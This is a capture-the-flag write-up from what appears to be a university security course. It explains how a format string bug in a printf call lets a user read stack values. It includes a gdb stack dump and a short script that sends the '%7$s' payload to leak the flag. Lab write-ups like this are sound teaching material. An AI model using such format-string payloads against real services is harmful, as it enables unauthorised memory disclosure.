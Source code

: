 # Challenge `Short Local Read` writeup

- Vulnerability:
  - _Endpoint has a **format string** vulnerability_
- Where:
  - _`printf` endpoint_
- Impact:
  - _Allows to **read the stack values** without having the authority to by using the (vulnerable) printf function in the server's code_

## Steps to reproduce

First we need to open a session in the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22191`. After the session is established we can now start plotting what to do.

By analysing the source code provided, we can see that there is a buffer being used to store the input of the user. The buffer has a size of 5, and afterwards, in the function `vuln`, is printed. We can see that the `printf` function is being used to print the buffer, and it has a format string vulnerability. 

This means that we can use the `%08x.` character to print the stack values. The value we need is possibly already in the stack. To check it we used the gdb debugger with the corresponding **binary** file.
By disassembling the `vuln` function, we decided to use the memory address of the printf to make a breakpoint. This way, we can see the stack values when the breakpoint is reached. We obtained the following stack:

```bash
[------------------------------------stack-------------------------------------]
0000| 0xffffce80 --> 0x804a038 --> 0xa ('\n')
0004| 0xffffce84 --> 0xf7fdb8d0 (pop    edx)
0008| 0xffffce88 --> 0xffffcea8 --> 0xffffceb8 --> 0x0 
0012| 0xffffce8c --> 0x80485b8 (<vuln+11>:	mov    DWORD PTR [ebp-0xc],eax)
0016| 0xffffce90 --> 0xf7f9dff4 --> 0x21cd8c 
0020| 0xffffce94 --> 0x8048610 (<__libc_csu_init>:	push   ebp)
0024| 0xffffce98 --> 0xf7ffcb80 --> 0x0 
0028| 0xffffce9c --> 0x804b1a0 ("STT{The_correct_flag_is_on_the_server}")           #its here (seventh place)
[------------------------------------------------------------------------------]
```

Looking at the stack the flag is in the seventh place, so we can use what we used in the previous challenge to obtain it. The request we used and its corresponding payload was:

```python
msg= (b"%7$s")
r.sendline(msg)
print(f"Flag: {r.recvall().decode()}")
r.close()
```

Now, we can see that the server returned the `flag`. This means that we have successfully exploited the vulnerability and achieved our objective.

## Script

The script used can be found [here](short_local_read_poc.py)
